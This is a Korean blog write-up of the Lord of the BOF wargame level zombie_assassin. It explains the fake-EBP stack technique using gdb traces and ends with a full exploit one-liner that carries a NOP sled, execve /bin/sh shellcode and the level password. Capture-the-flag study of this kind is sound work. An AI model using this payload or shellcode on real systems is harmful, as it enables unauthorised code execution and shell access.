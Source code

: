 ```yaml
---
layout: single
title: "LOB 16번 (assassin -> zombie_assassin)"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


source code:

```c

1  /*
2          The Lord of the BOF : The Fellowship of the BOF
3          - zombie_assassin
4          - FEBP
5  */
6  
7  #include <stdio.h>
8  #include <stdlib.h>
9  
10 main(int argc, char *argv[])
11 {
12         char buffer[40];
13 
14         if(argc < 2){
15                 printf("argv error\n");
16                 exit(0);
17         }
18 
19         if(argv[1][47] == '\xbf')
20         {
21                 printf("stack retbayed you!\n");
22                 exit(0);
23         }
24 
25         if(argv[1][47] == '\x40')
26         {
27                 printf("library retbayed you, too!!\n");
28                 exit(0);
29         }
30 
31         // strncpy instead of strcpy!
32         strncpy(buffer, argv[1], 48);
33         printf("%s\n", buffer);
34 }

```

Stack frame structure:

| buffer[40] |
| SFP |
| RET |
| argc |
| argv |
| environ |

문제에서 FEBP, fake EBP라는 힌트를 주었다. fake EBP는 golem -> darkknight 문제에서 한번 언급된 바 있다.
fake EBP는 ebp를 통해 eip를 조작하는 기법이다. 이를 알아보기 위해 실험을 해 보았다.

![disas]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/0.png)

disas main 명령어를 통해 leave를 하는 위치를 찾았다. leave ret을 하나씩 실행하고 경과를 지켜보기 위해 이 자리에 breakpoint를 걸고 차근차근 실행해 보았다.

![info_register]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/1.png)

A 40개는 buffer 40바이트, BBBB는 stack frame pointer, CCCC는 return 자리이다. 뒤의 D 200개는 padding과 쉘을 위치시킬 것을 고려해 입력해 보았다. 여기까지는 leave를 하기 전이다.

![memory]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/2.png)

![memory2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/3.png)

buffer와 argv 자리에 위치하고 있는 입력값들의 위치를 찾아 두었다. 그리고 si 명령어로 leave를 해 보았다.

![info_register2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/4.png)

ebp에 BBBB인 42424242가 위치해 있는 것을 볼 수 있다. 여기에서 leave 이후의 ret까지 실행시켜 보았다.

![info_register3]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/5.png)

eip가 BBBB 뒤의 값인 CCCC(43434343)으로 바뀐 것을 볼 수 있다. 원래 0x43434343 자리에는 다음에 실행할 명령어의 위치가 들어 있어야 할 것이다. 이제 CCCC(ret 위치) 대신 leave의 주소인 0x080484df를 입력하고, BBBB 자리에 적당한 주소로 bffffba0를 입력해 보았다.

![info_register4]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/6.png)

이전과 동일한 실행지점까지 실행시켜 보았다. eip가 080484df, ebp가 bffffba0으로 바뀌었다. 여기에서 한 줄 더 실행시켜 보았다.

![info_register5]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/7.png)

eip가 ret인 080484e0로 바뀌고 ebp는 이전에 bffffba0에 들어있는 값인 44444444로 바뀌었다. 여기에서 한줄 더 실행시켜 보았다.

![info_register6]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/8.png)

eip마저 44444444로 바뀌었다. 이는 ebp+4에 위치하고 있는 값이었을 것이다. 일련의 과정들을 통해 fake EBP를 다음과 같이 정리해 볼 수 있다.
본래의 SFP 자리에 어떤 주소지를 입력하고 ret 자리에 leave의 주소를 입력하면, SFP 자리에 입력된 주소지가 ebp가 되고, 거기서 4만큼 증가된 자리에 들어있는 주소지가 eip가 된다.
이를 바탕으로 페이로드를 다음과 같이 작성하였다.

```bash

./zombie_assassin `python –c ‘print “\xa0\xfb\xff\xbf”*10 + “\xd0\xf9\xff\xbf” + “\xdf\x84\x04\x08” + “\x90”*100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80” + “\x90”*75’`

```

1.	ret가 leave를 가리킴으로써 eip가 ret에 들어있는 주소값(\xdf\x84\x04\x08)으로 바뀐다.
2.	ebp가 SFP가 가리키는 주소(\xd0\xf9\xff\xbf)로 바뀐다.
3.	ebp가 SFP에 들어있는 주소가 가리키는 값(\xa0\xfb\xff\xbf)으로 바뀌고, +4가 된 주소에 들어있는 값이 eip에 담긴다.
4.	eip가 \x90” * 100 + shellcode를 실행

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/9.png)


my-pass: no place to hide
